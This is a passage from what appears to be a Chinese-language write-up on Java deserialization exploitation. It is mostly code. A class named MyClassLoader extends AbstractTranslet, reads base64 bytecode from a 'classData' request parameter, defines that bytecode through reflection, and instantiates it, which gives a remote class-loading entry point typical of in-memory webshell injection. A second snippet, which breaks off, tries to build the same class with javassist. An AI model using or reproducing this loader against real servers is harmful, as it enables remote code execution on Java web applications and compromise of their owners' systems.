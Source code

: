 ```plain
public class MyClassLoader extends AbstractTranslet {
    public MyClassLoader(){
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            Field r = request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            String classData=request.getParameter("classData");
            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance();
        }catch (Exception ignored){
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

针对于上述的剩下两种种手段，其实在这种应用场景之下能够使用的是第三种，由于 Myclassloader 本身逻辑的复杂性，我们无法使用 javassist 动态生成出来，比如我们使用如下的代码段企图生成 Myclassloader 类

```plain
public static void main(String[] args) throws Exception {
        String cmd = "calc";
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("MyClassLoader");
        CtClass superclass = classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superclass);
        CtConstructor constructor = ctClass.makeClassInitializer();
        constructor.setBody("try{\n" +
                "            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();\n" +
                "            java.lang.reflect.Field r = request.getClass().getDeclaredField(\"request\");\n" +
                "            r.setAccessible(true);\n" +
                "            String classData=request.getParameter(\"classData\");\n" +
                "            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);\n" +
                "            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod(\"defineClass\",new Class[]{byte[].class, int.class, int.class});\n" +
                "            defineClassMethod.setAccessible(true);\n" +
                "            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);\n" +
                "            cc.newInstance();\n" +
                "        }catch (Exception ignored){\n" +
                "        }");
        byte[] bytes = ctClass.toBytecode();
```